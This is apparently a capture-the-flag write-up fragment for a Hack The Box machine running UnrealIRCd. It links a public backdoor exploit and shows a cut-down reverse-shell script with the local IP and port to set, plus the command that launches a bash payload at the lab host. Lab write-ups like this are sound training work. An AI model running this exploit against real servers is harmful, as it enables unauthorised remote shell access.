


# 10 - IRC


# Searchsploit



I am neither going to use metasploit nor remote download/execute. The latter is a rather old script and links in the script are not working anymore. 


# [UnrealIRCd 3.2.8.1 Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)

```py
#!/usr/bin/python3
import argparse
import socket
import base64
...
local_ip = '10.10.14.9'  # CHANGE THIS
local_port = '4444'  # CHANGE THIS 
...
```

# Run the exploit
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/irked/exploit]
└──╼ $ ./exploit.py  -payload bash irked.htb 6697
Exploit sent successfully!
```

# Shell

